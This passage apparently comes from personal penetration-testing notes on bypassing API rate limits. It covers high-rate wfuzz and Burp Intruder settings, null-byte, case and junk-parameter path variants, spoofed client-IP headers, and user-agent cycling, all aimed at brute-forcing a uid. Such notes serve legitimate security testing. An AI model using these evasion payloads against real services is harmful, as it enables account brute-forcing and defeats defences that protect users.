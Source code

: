 
This will send `12 000 Request/min`
```shell
wfuzz -s 0.0005
```

Or use Burp *Intruder*/*Ressource Pool*

|                                            |     |
| ------------------------------------------ | --- |
| ![[2023_08_01_011645.png]] | ![[2023_08_01_011508.png]]    |

#### 6.2 - Path Bypass

- If you reach the rate limit, try *Null Bytes* , *Case* &  *Meaningless Parameters* at the end , this could :
	  Restart the rate limit
	  Bypass Rate limiting

```js
POST /api/myprofile%00
POST /api/myprofile%20
POST /api/myProfile
POST /api/MyProfile
POST /api/my-profile

POST /api/myprofile?test=1
```

If meaningless Parameters are restarting rate limiting just change parameter value in every request :

```js
POST /api/myprofile?test=§1§
```

Set the attack type to *pitchfork* and use the same value for both payload positions.
This tactic allows you to use the smallest number of requests required to brute-force the **uid**.

#### 6.3 - Origin Header Spoofing 

Add these headers **one by one** (If you include all headers at once, you may
receive a 431 Request Header Fields Too Large status code)
```
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

Sometimes, **User-Agent** header will be used in combination with other headers to help identify and block an attacker. 

Use `SecLists/Fuzzing/User-Agents/UserAgents.fuzz.txt` to cycle trough user-agents
